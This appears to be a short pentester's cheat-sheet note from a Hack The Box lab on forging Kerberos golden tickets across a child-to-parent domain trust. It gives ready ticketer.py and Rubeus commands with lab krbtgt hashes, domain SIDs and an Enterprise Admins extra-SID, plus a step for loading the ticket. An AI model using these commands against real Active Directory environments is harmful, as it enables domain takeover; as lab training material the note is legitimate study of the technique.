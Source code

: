 Use this tool to construct golden ticket.
You need:
- Hash of krbtgt service.
- SID and FQDN of sub Domain
- SID Enterprise Admin group
- Fake target user.

refer to [[3. Attacking Domain Trusts - Child -> Parent Trusts - from Linux]] for details.

```sh
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

The ticket will be saved down to our system as a [credential cache (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) file, which is a file used to hold Kerberos credentials. Setting the `KRB5CCNAME` environment variable tells the system to use this file for Kerberos authentication attempts.

```shell
slomkm@htb[/htb]$ export KRB5CCNAME=hacker.ccache 
```


```
ticketer.py -nthash 6963aad8ba1150192f3ca6341355eb49 -domain darkzero.ext -domain-sid S-1-5-21-1969715525-31638512-2552845157 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

```
ticketer.py -nthash 6963aad8ba1150192f3ca6341355eb49 -aesKey <krbtgt AES256 secret key> -domain-sid <trusted domain SID> -domain <trusted domain DNSname> -extra-sid <target SID> <trusted domain user SAMAccountName>
```


```
Rubeus.exe golden /rc4:6963aad8ba1150192f3ca6341355eb49 /user:<trusted domain user SAMAccountName> /id:<trusted domain user RID> /domain:<trusted domain DNSname> /sid:<trusted domain SID> /sids:<target SID> /dc:<trusted domain DC DNSname> /nowrap /ptt
```

